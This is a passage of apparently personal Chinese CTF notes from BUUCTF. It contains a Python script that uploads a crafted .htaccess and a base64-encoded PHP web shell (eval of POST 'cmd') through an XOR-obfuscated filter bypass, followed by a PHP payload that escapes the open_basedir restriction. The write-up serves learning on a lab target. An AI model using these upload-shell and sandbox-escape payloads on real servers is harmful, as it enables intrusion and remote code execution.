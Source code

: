 不知道为什么用bp上传一直有问题

写个脚本上传

```python
import requests
import hashlib
import base64

url ="http://3031af24-03a0-45ad-997c-8578e85b329e.node4.buuoj.cn:81/"
padding = "?_=${%f8%f8%f8%f8^%a7%bf%bd%ac}{%f8}();&%f8=get_the_flag"
myip=requests.get("http://ifconfig.me").text
ip_md5 = hashlib.md5(myip.encode()).hexdigest()
userdir="upload/tmp_"+ip_md5+"/"
htaccess = b"""\x00\x00\x8a\x39\x8a\x39
AddType application/x-httpd-php .txt
php_value auto_append_file "php://filter/convert.base64-decode/resource=./xl.txt"
"""
shaw = b"\x00\x00\x8a\x39\x8a\x39"+b"00"+ base64.b64encode(b"<?php eval($_POST['cmd']);?>")
files =[('file',('.htaccess',htaccess,'image/jpeg'))]

res = requests.post(url=url+padding,files=files)
files = [('file',('xl.txt',shaw,'image/jpeg'))]
res = requests.post(url=url+padding,files=files)
print("the path is:"+url+res.text)
```

按道理说最后用蚁剑的插件来绕过`open_basedir`权限限制，但我连上去就直接能看flag了（难道是默认开启了？

或者利用

```php
cmd=mkdir('rot');chdir('rot');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');var_dump(glob('*'));
```

这样就能看到flag，再打印就好啦

[open_basedir绕过](https://www.v0n.top/2020/07/10/open_basedir%E7%BB%95%E8%BF%87/)

## 文件包含

### [WMCTF2020]Make PHP Great Again(×)



from buuctf





### [WMCTF2020]Make PHP Great Again2(×)



from buuctf

等我学好了条件竞争，就来治你们
